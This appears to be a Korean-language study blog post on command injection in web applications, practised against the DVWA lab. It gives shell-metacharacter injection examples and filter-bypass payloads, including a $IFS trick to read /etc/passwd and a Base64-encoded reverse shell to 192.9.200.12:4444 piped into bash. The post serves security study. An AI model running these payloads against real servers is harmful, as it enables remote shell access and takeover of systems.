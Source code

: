```yaml
---
layout: post
title: "명령어 인젝션 (Command Injection) 공부"
date: 2025-09-22 17:00:00 +0900
categories: [웹 해킹]
---
```


### 1. 개요

명령어 인젝션은 사용자의 입력값이 서버의 쉘 명령어의 일부로 검증 없이 전달될 때 발생하는 취약점이다. 공격자는 쉘의 특수문자(Metacharacters)를 주입하여 원래의 명령어를 종료시키거나 변조하고 자신이 원하는 새로운 명령어를 실행시킬 수 있다.

이 공격은 [A01: 접근 통제 실패](https://hamap0.github.io/projects/owasp-top-10/2025/08/25/A01_Broken-Access-Control.html) 보고서에서 리버스 쉘을 획득하여 서버 제어권을 장악하는 데 결정적인 역할을 했다.

---

### 2. 주요 공격 기법

공격의 핵심은 쉘 메타 문자를 사용하여 명령어의 흐름을 제어하는 것이다.

*   **`;` (Semicolon):** 앞 명령어의 성공 여부와 관계없이 다음 명령어를 순차적으로 실행한다.
    ```
    ping 127.0.0.1; whoami
    ```
*   **`&&` (Ampersand):** 앞 명령어가 성공적으로 실행되었을 때만 다음 명령어를 실행한다.
    ```
    ping 127.0.0.1 && whoami
    ```
*   **`|` (Pipe):** 앞 명령어의 표준 출력(stdout)을 다음 명령어의 표준 입력(stdin)으로 전달한다.

---

### 3. 필터링 우회 기법

단순한 메타 문자 주입은 방어 로직에 의해 차단될 수 있다. 이때는 필터링 규칙을 우회하는 기법이 필요하다.

#### **공백 문자 필터링 우회**
일부 시스템은 명령어 사이의 공백 문자를 필터링한다. 이때는 공백 대신 쉘의 내부 필드 구분자(Internal Field Separator)인 `$IFS` 변수를 사용할 수 있다.
*   **기본:** `cat /etc/passwd`
*   **우회:** `cat$IFS/etc/passwd`

#### **키워드 필터링 우회 (Base64 인코딩)**
`cat` · `ls` · `nc` 등 특정 명령어 키워드가 필터링될 때 사용된다. 실행할 명령어를 Base64로 인코딩하여 필터링을 우회한 뒤 서버에서 디코딩하여 실행시킨다.
1.  **공격자 PC에서 페이로드 인코딩:**
    ```bash
    # 실행할 리버스 쉘 명령어를 Base64로 인코딩 (-w0 옵션은 줄바꿈 없이 한 줄로 출력)
    echo "bash -i >& /dev/tcp/192.9.200.12/4444 0>&1" | base64 -w0
    ```
2.  **대상 서버에서 디코딩 및 실행:**
    인코딩된 문자열을 `echo`로 출력하고 파이프(`|`)를 통해 `base64 -d`로 디코딩한 뒤 다시 파이프를 통해 `bash`로 실행시킨다.
    ```bash
    # DVWA 입력값:
    127.0.0.1; echo <Base64 Encoded String> | base64 -d | bash
    ```
   ![CommandinjectionBase64](/assets/images/Cinjection_1.png)

이 방식은 필터링이 복잡할수록 유용하며 `A01` 보고서에서 서버 제어권을 획득할 때 사용된 핵심 기법이다.

<hr class="short-rule">
